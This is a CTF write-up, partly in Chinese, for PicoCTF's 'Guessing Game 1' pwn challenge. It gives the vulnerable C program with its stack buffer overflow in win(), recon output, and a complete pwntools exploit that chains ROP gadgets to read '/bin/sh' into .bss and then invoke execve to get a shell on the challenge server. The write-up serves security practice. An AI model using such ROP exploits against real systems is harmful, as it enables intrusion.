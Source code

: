 ```yaml
---
title: PicoCTF - Guessing Game 1
tags: [PicoCTF, CTF, PWN]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - Guessing Game 1
## Background
ROP Chain
[Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
## Source code
:::spoiler
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

#define BUFSIZE 100


long increment(long in) {
	return in + 1;
}

long get_random() {
	return rand() % BUFSIZE;
}

int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;
	
	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);
	
	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}

void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}

int main(int argc, char **argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	// Set the gid to the effective gid
	// this prevents /bin/sh from dropping the privileges
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	
	int res;
	
	printf("Welcome to my guessing game!\n\n");
	
	while (1) {
		res = do_stuff();
		if (res) {
			win();
		}
	}
	
	return 0;
}
```
:::
## Recon
1. Recon
    ```bash!
    $ file vuln
    vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
    $ checksec vuln
    [*] '/mnt/d/NTU/CTF/PicoCTF/PWN/Guessing Game 1/vuln'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    ```
    可以看到這隻程式沒有用動態連結的方式引入library，代表他都把一些libc會用到的東西編譯進去了
2. 這支程式沒有明顯讀flag的地方，所以可以直覺想到要開shell，而main function的do_stuff subfunction主要應該是類似proof of work的部分(因為亂數的範圍也只要0-99)，當猜對random的數值後就近到win function然後可以填一些東西，達到bof的效果
3. 所以也很直覺的想到one_gadget或是ROP chain的東西，這部分就比較傷腦筋，因為蓋的過程會有一點點繞，講白了這題和[^0x12_rop++]幾乎一模一樣，但因為太久沒看所以忘記了
4. 既然有bof，那我們就可以隨便的蓋rop chain，包括syscall read function，這也說明了如何寫`/bin/sh\x00`的問題
5. ==執行的順序:==
Guess random(PoW)$\to$
syscall __libc_read function$\to$
Input `/bin/sh\x00`$\to$
Return to main function$\to$
Guess random(PoW)$\to$
Syscall `execve` to get shell

Note: 要如何知道`.bss`段在哪裡可以用`readelf -S ./vuln`查看

## Exploit
```python
from pwn import *
import random

# r = process("./vuln")
r = remote("jupiter.challenges.picoctf.org", 39940)

context.arch = "amd64"

'''#############
Read /bin/sh by libc read function
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

pop_rax_ret = 0x4163f4
pop_rdi_ret = 0x400696
pop_rdx_ret = 0x44a6b5
pop_rsi_ret = 0x410ca3
main_fun_addr = 0x400c8c
libc_read_addr = 0x44a6a0
write_2_bss = 0x6b7000
syscall = 0x40137c

ROP_payload = flat(
    pop_rdi_ret, 0,
    pop_rsi_ret, write_2_bss,
    pop_rdx_ret, 9,
    libc_read_addr,
    main_fun_addr
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.sendline(b'/bin/sh\x00')

'''#############
Execute shell
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

ROP_payload = flat(
    pop_rax_ret, 0x3b,
    pop_rdi_ret, write_2_bss,
    pop_rsi_ret, 0,
    pop_rdx_ret, 0,
    syscall
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.interactive()
```
## Reference
[PicoCTF - Guessing Game 1 [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-guessing-game-1-pwn-bdc1c87016f9)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
